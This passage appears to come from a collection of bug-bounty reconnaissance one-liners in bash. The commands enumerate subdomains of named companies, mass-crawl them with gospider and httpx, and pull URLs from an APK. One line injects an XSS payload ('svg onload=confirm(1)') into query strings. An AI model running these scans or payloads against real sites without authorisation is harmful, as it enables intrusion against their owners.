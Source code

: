 ```bash
curl -s https://dns.bufferover.run/dns?q=.sony.com |jq -r .FDNS_A[] | sed -s 's/,/\n/g' | httpx -silent | anew
```

###  Using gargs to gospider search with parallel proccess
- [Gargs](https://github.com/brentp/gargs)

- [Explained command]

```bash
httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -l domain -timeout 5 -threads 200 --follow-redirects -silent | gargs -p 3 'gospider -m 5 --blacklist pdf -t 2 -c 300 -d 5 -a -s {}' | anew stepOne
```

###  Injection xss using qsreplace to urls filter to gospider

- [Explained command]

```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

###  Extract URL's to apk

- [Explained command]

```bash
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|schemas.android\|google\|goo.gl"
```

###  Chaos to Gospider

- [Explained command]

```bash
chaos -d att.com -o att -silent | httpx -silent | xargs -P100 -I@ gospider -c 30 -t 15 -d 4 -a -H "x-forwarded-for: 127.0.0.1" -H "User-Agent: Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1" -s @
```

###  Checking invalid certificate

- [Real script](https://bit.ly/2DhAwMo)
- [Script King](https://bit.ly/34Z0kIH)

```bash
xargs -a domain -P1000 -I@ sh -c 'bash cert.sh @ 2> /dev/null' | grep "EXPIRED" | awk '/domain/{print $5}' | httpx
```

###  Using shodan & Nuclei

- [Explained command]
